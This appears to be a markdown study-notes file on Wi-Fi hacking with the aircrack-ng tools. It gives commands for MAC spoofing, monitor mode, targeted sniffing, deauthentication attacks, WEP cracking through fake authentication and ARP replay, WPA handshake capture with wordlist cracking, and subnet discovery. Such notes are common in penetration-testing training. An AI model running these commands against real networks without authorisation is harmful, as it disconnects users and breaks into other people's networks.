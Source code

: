 # Network Hacking

* To list all network interfaces available, we can use `ifconfig`. The MAC address can be viewed under _ether_ in _wlan0_ and the IP can be viewed under _inet_ in _eth0_.

* To change the MAC address:

```shell
ifconfig wlan0 down #disables wlan0

ifconfig wlan0 hw ether 00:11:22:33:44:55 #sets hardware address of wlan0

ifconfig wlan0 up #enables wlan0
```

* To list only wireless interfaces, we can use `iwconfig`.

* To change _wlan0_ to monitor mode:

```shell
ifconfig wlan0 down

airmon-ng check kill #optional; kills any process that disturb interface in monitor mode

iwconfig wlan0 mode monitor #changes wlan0 mode to monitor

ifconfig wlan0 up
```

---

* To sniff packets, we can use _airodump-ng_:

```shell
airodump-ng wlan0 #here, wlan0 must be in monitor mode in order to fetch details
```

* To sniff packets on particular wifi bands:

```shell
airodump-ng --band a wlan0 #captures all networks with 5 GHz band

airodump-ng --band abg wlan0 #captures 2.5 GHz and 5 GHz networks at the same time
```

* To do targeted packet sniffing:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 4 --write testfile wlan0 #captures a particular network with given bssid and channel number, then it saves data to a file called testfile
#this will also show the devices connected to network
```

* To run a deauthentication attack, which can disconnect any client from any network:

```shell
aireplay-ng --deauth 100000000 -a 54:37:BB:B5:BB:09 -c 70:BB:E9:7B:AE:D2 wlan0
#here, aireplay-ng is the program name, followed by the deauth attack specifications including the MAC address of target router (-a) and MAC address of target client (-c)
```

---

* WEP(Wired Equivalent Privacy) can be cracked using two tools: _airodump-ng_ and _aircrack-ng_.

* To crack into a busy WEP network:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 4 --write wep_test wlan0
#capturing data packets from WEP network and writing it into a file

aircrack-ng wep_test-01.cap
#analyze captured data, cracks the key and prints it
```

* To crack into a non-busy WEP network, we need to do a fake authentication attack:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 11 --write arpreplay wlan0

aireplay-ng --fakeauth 0 -a 70:BB:E9:7B:AE:D2 -h 1A:AB:2E:49:AA:AD wlan0
#to associate with network; uses aireplay-ng tool to run a fake authentication attack on given MAC address access point (-a) and by wireless adapter having monitor mode(-h).

aireplay-ng --arpreplay -b 70:BB:E9:7B:AE:D2 -h 1A:AB:2E:49:AA:AD wlan0
#ARP request replay; forces access point to generate new IVs

aircrack-ng arpreplay-01.cap
```

---

* To crack WPA/WPA2:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 3 --write wpa-handshake wlan0
#capture handshake (when client joins network)
#deauth attack can be done in parallel to capture handshake
aireplay-ng --deauth 4 -a 54:37:BB:B5:BB:09 -c 70:BB:E9:7B:AE:D2 wlan0
#After this handshake is captured and stored in file

crunch 6 8 ria258 -o trial-wordlist.txt
#wordlist created using crunch with specifics

aircrack-ng wpa-handshake-01.cap -w trial-wordlist.txt
```

---

* For devices connected on same network:

```shell
netdiscover -r 10.0.2.1/24 #search devices on same subnet as Kali
```

* zenmap (GUI for nmap) can be used to gather more data about devices within subnet range.

---
